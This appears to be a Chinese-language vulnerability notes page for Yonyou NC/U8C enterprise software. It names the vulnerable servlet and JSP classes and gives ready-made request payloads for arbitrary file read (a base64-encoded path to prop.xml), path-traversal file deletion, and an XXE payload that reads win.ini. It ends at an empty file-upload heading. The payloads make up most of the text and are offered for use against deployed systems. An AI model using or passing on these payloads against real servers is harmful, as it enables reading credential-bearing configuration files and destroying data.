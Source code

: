 GZIP压缩

### 任意文件读取

#### FileServlet

modules\hrpub\lib\pubhrpubtools.jar!\nc\bs\hr\tools\trans\FileServlet.class

就是base64编码

```
/servlet/nc.bs.hr.tools.trans.FileServlet?path=aWVycC9iaW4vcHJvcC54bWw=
```

https://security.yonyou.com/#/noticeInfo?id=252



### 任意文件删除

#### PrintTemplateFileServlet

modules\uapweb\lib\pubuapweb.jar!\nc\lfw\billtemplate\servlet\PrintTemplateFileServlet.class

读取文件并删除

```
/yer/xxxx.pdf?filePath=../../ierp/bin/prop.xml
```

#### delSPR.jsp

webapps/u8c_web/spr/delSPR.jsp

```
/spr/delSPR.jsp?sprName=../../../../../../../../
```



### XXE

#### SoapFormatAction

接口：hotwebs/uapws/WEB-INF/config.xml

modules\uapws\lib\pubwsframework.jar!\nc\uap\ws\console\action\SoapFormatAction.class

```
/uapws/soapFormat.ajax

msg=<%3fxml+version%3d"1.0"+encoding%3d"utf-8"%3f>
<!DOCTYPE+foo+[
<!ENTITY+xxe+SYSTEM+"file%3a///c%3a/windows/win.ini"+>]><a>%26xxe%3b</a>
```

https://security.yonyou.com/#/noticeInfo?id=284

### 任意文件上传
